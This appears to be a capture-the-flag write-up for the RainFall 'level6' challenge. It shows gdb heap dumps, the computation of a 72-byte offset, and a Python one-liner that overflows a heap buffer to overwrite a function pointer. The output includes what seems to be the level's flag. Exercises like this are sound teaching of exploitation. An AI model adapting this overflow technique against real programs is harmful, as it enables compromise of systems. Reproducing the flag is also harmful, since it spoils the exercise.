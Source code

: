 Okay this looks like a buffer heap overflow


Here is the address of function n (win) : `0x08048454` == `\x54\x84\x04\x08`

Here is the adress of function m (lose) : `0x8048468`


```
info proc map

0x804a000  0x806b000    0x21000        0x0 [heap]
```

tart of heap `0x804a000`

```console
(gdb) x/50x 0x804a000
0x804a000:	0x00000000	0x00000049	0x41414141	0x00000000
0x804a010:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a020:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a030:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a040:	0x00000000	0x00000000	0x00000000	0x00000011
0x804a050:	0x08048468	0x00000000	0x00000000	0x00020fa9
0x804a060:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a070:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a080:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a090:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0a0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0b0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0c0:	0x00000000	0x00000000
```

18 x 4 = 72
I calculated the offset: 72
address of m is located 72 bytes after our mallocated buffer  

Lets overwrite value the function ptr with address of function n

```
./level6 `(python -c 'print ("A" * 72 + "\x54\x84\x04\x08"*12 )')`
```

```
```console
./level6 `(python -c 'print ("A" * 72 + "\x54\x84\x04\x08"*12 )')`
level6@RainFall:~$ ./level6 `(python -c 'print ("A" * 72 + "\x54\x84\x04\x08"*12 )')`
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d

```
